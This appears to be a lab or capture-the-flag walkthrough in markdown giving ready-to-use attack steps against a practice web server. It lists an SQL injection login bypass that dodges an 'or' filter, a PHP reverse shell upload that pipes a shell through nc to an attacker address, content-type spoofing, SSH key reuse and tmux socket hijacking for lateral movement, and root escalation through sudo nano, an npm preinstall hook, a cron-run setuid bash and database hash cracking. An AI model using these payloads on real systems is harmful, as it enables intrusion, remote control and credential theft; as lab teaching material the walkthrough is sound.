 ## Initial Access Point 2

SQL Injection (since the or gets sanitized, we can do this "oorr"): 
```
username = admin' oorr '1' = '1' -- 
OR
password = admin' oorr '1' = '1' -- 

# remember to put a space after --
```

## Initial Access Point 3

Upload File Vulnerability (Reverse shell):
1. upload a php file with the following content:
```
<?php
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <Attacking IP> <Attacking Port> >/tmp/f");
?>
```

2. Use burp suite/python to intercept the upload file request
```
Change the content type to image/png or image/jpeg
```

3. Run the command on your attacking machine:
```
nc -lvnp <Match the port in the php file>
```

4. Go the the following endpoint
```
<Victim IP>:5000/uploads/<filename.php>
```

## Horizontal Escalation Vector 1

puttygen /tmp/.sys_cache/.thumb -O private-openssh -o /tmp/converted_id
/tmp/.sys_cache$ chmod 600 /tmp/converted_id
/tmp/.sys_cache$ ssh -i /tmp/converted_id alice@localhost

## Horizontal Escalation Vector 2

cat /var/log/flaskapp.log

## Horizontal Escalation Vector 3

tmux -S /tmp/alice_tmux.sock attach -t shared

## Vertical Escalation Vector 1

```
sudo -l

sudo nano
^R^X
reset; sh 1>&0 2>&0
bash
```

## Vertical Escalation Vector 2

```
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i
```

## Vertical Escalation Vector 3

```
vi /opt/tmp.py

#!/usr/bin/env python
import os
import sys
try:
     os.system('chmod +s /bin/bash')
except:
     sys.exit()

# Wait for cron job to run
/bin/bash -ip
```

## Vertical Escalation Vector 4

```
env
psql -h localhost -U "$LAB_DB_USER" -d "$LAB_DB_NAME"
\l
\c labdb
\dt
SELECT * FROM users;

# Get the hash and crack it with hashcat
hashcat -m 3200 pass.hash /usr/share/wordlists/rockyou.txt
```
